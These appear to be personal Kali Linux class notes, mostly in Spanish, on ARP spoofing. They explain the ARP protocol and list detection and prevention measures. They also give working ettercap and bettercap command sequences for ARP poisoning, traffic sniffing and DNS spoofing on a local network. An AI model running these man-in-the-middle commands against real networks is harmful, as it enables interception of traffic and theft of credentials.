 18/05/02 - KALI
------------------

ARP SPOOF -- VERIFICAR CON DNSSPOOF PING

COM DETECTAR?

arp -a

WIRESHARK - DUPLICATE

CADA DISPOSITIVO DE LA RED TIENE UNA IP Y UNA MAC ADDRESS

    IP - LO ASIGNA EL ROUTER - DHCP

    MAC - UNICO - MANUFACTURER

CLIENTE A QUIERE ENVIAR UN PAQUETE A CLIENTE B

    - IP ADDRESS CLIENTE B (LO CONOZCO)

    - MAC?? NO SÉ

https://www.varonis.com/blog/arp-poisoning PREVENIR ARP POISONING
https://www.imperva.com/learn/application-security/arp-spoofing/

Once the attacker succeeds in an ARP spoofing attack, they can:

Continue routing the communications as-is⁠—the attacker can sniff the packets and steal data, except if it is transferred over an encrypted channel like HTTPS. 

Perform session hijacking⁠—if the attacker obtains a session ID, they can gain access to accounts the user is currently logged into.
Alter communication⁠—for example pushing a malicious file or website to the workstation.

Distributed Denial of Service (DDoS)⁠—the attackers can provide the MAC address of a server they wish to attack with DDoS, instead of their own machine. If they do this for a large number of IPs, the target server will be bombarded with traffic.



# PREVENTION

ARP Spoofing Prevention
Here are a few best practices that can help you prevent ARP Spoofing on your network:

Use a Virtual Private Network (VPN)⁠—a VPN allows devices to connect to the Internet through an encrypted tunnel. This makes all communication encrypted, and worthless for an ARP spoofing attacker.

Use static ARP⁠—the ARP protocol lets you define a static ARP entry for an IP address, and prevent devices from listening on ARP responses for that address. For example, if a workstation always connects to the same router, you can define a static ARP entry for that router, preventing an attack.

Use packet filtering⁠—packet filtering solutions can identify poisoned ARP packets by seeing that they contain conflicting source information, and stop them before they reach devices on your network.

Run a spoofing attack⁠—check if your existing defenses are working by mounting a spoofing attack, in coordination with IT and security teams. If the attack succeeds, identify weak points in your defensive measures and remediate them.

# ARP

CADA DISPOSITIVO DE LA RED TIENE UNA IP Y UNA MAC ADDRESS

    IP - LO ASIGNA EL ROUTER - DHCP

    MAC - UNICO - MANUFACTURER

CLIENTE A (MAC1) QUIERE ENVIAR UN PAQUETE A CLIENTE B (MAC2)

    - IP ADDRESS CLIENTE B (LO CONOZCO)

    - MAC2?? NO SÉ

CLIENTE A MIRA SU TABLA __ARP CACHE TABLE__.

    - NO LO TIENE EN SU TABLA.

CLIENTE HACE...

1. CLIENTE A HACE UN ARP REQUEST PARA SABER LA MAC2 DE CLIENTE B

 - WHO HAS IP CLIENTE B? TELL MAC1 CLIENTE A

2. EL ROUTER COGE EL ARP REQUEST Y HACE UN BROADCAST A SU RED PARA PREGUNTAR QUIÉN TIENE LA IP DEL CLIENTEB.

3. SOLO RESPONDERÁ AQUEL CLIENTE QUE TENGA SU IP Y QUE COINCIDA CON SU TABLA CACHE ARP. RESPONDE EL CLIENTE B REVISANDO SU TABLA MAC Y QUE COINCIDA CON LA IP.

4. EL CLIENTE B VA A RESPONDER. LE REENVIA LA RESPUESTA.

5. SE ACTUALIZA LA TABLA ARP --> IP CLIENTE B TIENE MAC2

https://www.youtube.com/watch?v=KYY0YYUW25c -- el crack ARP Cache Poisoning

nmap SCAN REPORT

sudo nmap -sP GATEWAY/24

TEST only HTTP

http://testphp.vulnweb.com/login.php
http://testphp.vulnweb.com/login.php

COM PREVENIR?


HTTPS USA SSL





nmap -sP gateway/24

CACHE POISONING - ARP

ARP REQUEST 

    HOST PREGUNTA POR LA IP 4, BUSCA EN SU TABLA ARP, SI NO LA TIENE, ENVIA UN ARP REQUEST AL GATEWAY-ROUTER Y HACE UN FORWARD DE ARP A TODA LA RED PREGUNTANDO QUIÉN TIENE LA MAC,

    EL HOST IP 4 RESPONDE Y DICE QUE LA TENGO YO. 


sudo ettercap -Tq -M ARP /192.168.0.10// /192.168.0.15// - ARP SPOOF CLI

# EJEMPLO 2

https://www.youtube.com/watch?v=hKCBnDhBm2w 


BETTERCAP - MITM - SNIFFER - DNSSPOOF

NET.SHOW

NET.PROBE ON

TICKER ON

NET.PROBE OFF

set arp.spoof.fullduplex true

set arp.spoof.targets IP VICTIMA

arp.spoof on

net.sniff on --> NOS VOLVEMOS MITM

ACTIVAR APACHE

192.168.0.0/24 > 192.168.0.33  » set dns.spoof.domains *.abcdefghijk.com, *.zbunker.in




HSTP STRICT TRANSPORT SECURITY

# EJEMPLO 1

- EXEMPLE KALI APACHE2 SPOOF

1. ENCENDER APACHE2 EN KALI

2. PERMITIR FORWARDING

3. ARP SPOOF ENTRE SOA Y FORWARDING

    - VERIFICAR CON ARP -A

    - WIRESHARK

    - NMAP -SP

    - PING 

    - SNIFF (BETTERCAP) -- MITM

4. DNS SPOOF INVENTADO *.zbunker.in --> Redirige a mi maquina --> SALE APACHE2

# MAN IN THE MIDDLE ATTACK

1 ARP POISON VICTIM FULL DUPLEX

net.sniff on